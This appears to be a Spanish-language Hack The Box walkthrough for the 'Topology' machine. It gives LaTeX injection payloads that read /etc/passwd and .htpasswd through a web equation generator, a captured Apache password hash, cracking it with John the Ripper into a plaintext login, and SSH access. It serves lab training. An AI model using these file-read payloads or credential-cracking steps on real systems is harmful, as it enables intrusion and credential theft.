






<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"></a>
</p>

**Online:** https://app.hackthebox.com/machines/546

**Paso 1:**

Escanear todos los puertos que estén abiertos con Nmap.

```
sudo nmap -sS -sV 10.10.11.217
```

<p align="center">

</p>

Como podemos observar tiene abierto los puertos 80 para HTTP y 22 para ssh, vamos a acceder a la direccion IP en nuestro navegador, luego vamos acedder a **LaTeX Equation Generator** y no saldra error al cargar la pagina ya que no tenemos agregado el dominio a nuestra lista de hosts.

<p align="center">

</p>

**Paso 2:**

Primero vamos a editar el fichero etc/hosts y agregar el sgiuiente dominio:

```
10.10.11.217    latex.topology.htb
```

<p align="center">

</p>

**Paso 3:**

Ahora vamos a acceder en **LaTeX Equation Generator** y nos pedira que ingresemos un código de látex y vamos a ingresar en orden los siguientes codigos:

<p align="center">

</p>

```latex
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htaccess}$

$\lstinputlisting{/var/www/dev/.htpasswd}$
```

nos dara un hash, creamos un archivo sin extencion y guardamos el hash **vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0**

<p align="center">

</p>

```
nano hash
```

**Paso 4:**

Ahora usaremos John the Ripper para decifrar el hash

```
sudo john hash --show
```

<p align="center">

</p>

nos dara como usuario y contraseña **vdaisley:calculus20**

**Paso 5:**

Ahora vamosa conectarnos mediante ssh ingresando la contraseña que obtuvimos:

```
sudo ssh vdaisley@10.10.11.217
```

por ultimo leemos el archivo **user.txt** y nos dara como resultado la bandera.